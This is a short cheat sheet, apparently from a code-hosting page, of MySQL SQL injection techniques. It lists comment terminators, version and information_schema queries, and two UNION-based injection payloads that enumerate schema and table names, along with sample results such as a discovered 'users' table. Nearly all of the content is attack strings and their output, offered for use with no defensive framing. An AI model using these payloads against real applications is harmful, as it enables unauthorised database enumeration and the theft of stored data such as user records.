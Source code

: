```sql
# 
-- 
#--
```

#### MySQL Verison

select version()

#### information Schema

##### Table names

SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables

###### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
``` 

```text
dummymalex:dummyms 
```

```text
table_schema = dummymalex
table_name  = dummyms
```

###### Hide stuff we dont need

AND table_schema != 'information_schema'

###### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```
```
LIMIT 0,1
dummymalex:dummyms 
```

```
table_schema = dummymalex
table_name   = dummyms 
```

```	
LIMIT 1,1 
dummymalex:users 	
```
